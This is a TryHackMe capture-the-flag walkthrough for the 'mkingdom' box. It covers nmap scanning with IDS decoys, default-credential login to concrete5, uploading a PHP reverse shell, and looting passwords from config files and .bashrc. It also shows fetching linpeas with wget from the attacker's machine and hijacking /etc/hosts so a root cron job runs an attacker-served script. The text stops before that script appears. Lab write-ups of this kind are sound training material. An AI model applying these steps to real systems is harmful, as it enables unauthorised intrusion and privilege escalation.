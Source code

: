 ![intro](https://github.com/user-attachments/assets/352398d3-7036-426f-8735-18b607e1f22e)

# tryhackme-CTF-writeup-for-mkingdom

This is a walkthrough for the tryhackme CTF mkingdom. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a webserver on port 85:

![nmap](https://github.com/user-attachments/assets/6e9260bd-2c0f-4f72-ae61-0feece3a008a)

Visiting this webserver we see this image of Bowser:

![bowser](https://github.com/user-attachments/assets/5027b68b-1510-432f-8e82-b2b9824a84b5)

Using exiftool on the image reveals that the creater is b0ws53r. 

![exif](https://github.com/user-attachments/assets/6a372813-6216-499a-ad9f-8851eb1d1d98)

Let's run a gobuster and nikto scan on the target:

![gobuster + nikto](https://github.com/user-attachments/assets/52b6696d-72fa-4069-a95e-885787ab9668)

The scans reveal a directory call /app. At first this brings us to a button called jump, and after clicking it a few times, it takes us to toad's expensive website. Let's examine the source code:

![source](https://github.com/user-attachments/assets/5ad9209e-80cc-43d8-9c73-90a87896a060)

The code reveals that the site is using concrete5 8.5.2. I did a little research on exploited this and came across this article on hackerone.com:

![concrete exploit](https://github.com/user-attachments/assets/5d16a8c7-a37d-4bd8-89a7-c5f03afb8414)

I tried a some typical default username and password combos and admin:password worked for the login. Now, we're going to follow the steps described in the hackerone article to change file properties to allow php, and upload a php reverse shell. 
And we now have a reverse shell as www-data!

![www-data](https://github.com/user-attachments/assets/d8d732b3-4ee2-4e56-82e9-45ce03d92f6f)

# Privilege Escalation
I then searched around the home directory but permission is denied for the directories. So, I headed back to www-data's home, and started looking around for useful files. We saw from the source code earlier that the web server is built off of the /app/castle/application. I then found the directory config. It's always a good idea to check the config directory to see if there is senitive info. And the file database.php contains a password for toad.

![su toad](https://github.com/user-attachments/assets/b40596f7-8cfd-43f0-8a4e-dbe45cf34f3f)

I ran sudo -l as toad but toad can't run sudo on this machine. Let's head to /home/toad and see what we can find. smb.txt contains a message from mario:

![smb txt](https://github.com/user-attachments/assets/7d4d89b6-9751-4d8e-8e88-6182f2c6e284)

It's always a good idea to check files such as .bash_history and .bashrc to look for senitive info. I checked out .bashrc and noticed a PWD_token that appears to be base64 encryped.

![bashrc](https://github.com/user-attachments/assets/8515dba8-aebf-456d-83b2-680b1b3952ec)

I was then used this password to su mario:

![su mario](https://github.com/user-attachments/assets/ede5ede8-50dd-48e7-98ca-234218844851)

Now, let's head to /tmp, and run linpeas. I ran a python server from kali:
```bash
python3 -m http.server
```
And wget from mario:
```bash
wget http://<your IP>:8000/linpeas.sh
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh >> output
```

I didn't many concrete things that we could use, other some files that we have access to, like the /etc/hosts file. 
It's also interesting that toad has /bin/cat:

![bin_cat](https://github.com/user-attachments/assets/113baa75-f33d-46d7-b107-a2e2e38b4cf8)

We also see that mario has write access to /etc/hosts file:

![linpeas_etc_hosts](https://github.com/user-attachments/assets/897b47cb-db6b-445c-8112-cad10924157d)

# Exploitation
Let's use pspy to see if we can find processes to exploit:

![pspy64](https://github.com/user-attachments/assets/db94d3b3-e0b9-4ccb-ad6d-3d1a76525d1d)

This process looks like something we can exploit:

![pspy counter sh](https://github.com/user-attachments/assets/824d5ffd-a36a-494e-b15f-d8b8d9ca57d7)

This command starts by downloading the script (counter.sh) from a (mkindom.thm:85).
The downloaded script is then passed to bash for execution.
The output produced by the script execution is appended to the log file located at /var/log/up.log.
This type of command, which downloads and executes a script from the internet without verification, can be very dangerous. As we saw earlier, we have access to /etc/hosts, se we can pontenially execute malicious code. 

First, let's check out that /etc/hosts file:

![etc_hosts](https://github.com/user-attachments/assets/5fb19660-513b-40ae-8711-197105da5953)

The next file to check out is the script in the process command counter.sh:

![counter sh_up log](https://github.com/user-attachments/assets/e9c5459d-3986-4fa8-9a6c-e64e733fd637)

So we don't have write access to counter.sh or up.log. But what we can do, is modify the /etc/hosts file to change the IP of mkingdom.thm:85 to point to our IP. This way, we can make our own counter.sh script and trick the target into executing, as root. So, once the target executes the script, it should give us a reverse shell as root.

The first step will be to modify the /etc/hosts file to point to our IP. I found the easiest way to do this is copy the contents of the /etc/host file onto kali, because using nano and editing the file on the target was finicky and hard to see what I was doing, change the mkingdom IP to ours, and copy the contents back into the targets /etc/hosts file.
The modified /etc/hosts file should look like this except with the mkingdom IP pointing to the IP of your attack box:

![modified _etc_hosts](https://github.com/user-attachments/assets/2e6104b5-5c7b-4551-8bd0-f86e186fc22c)

Next, on our attack box, create a script replicating counter.sh complete with the file path:

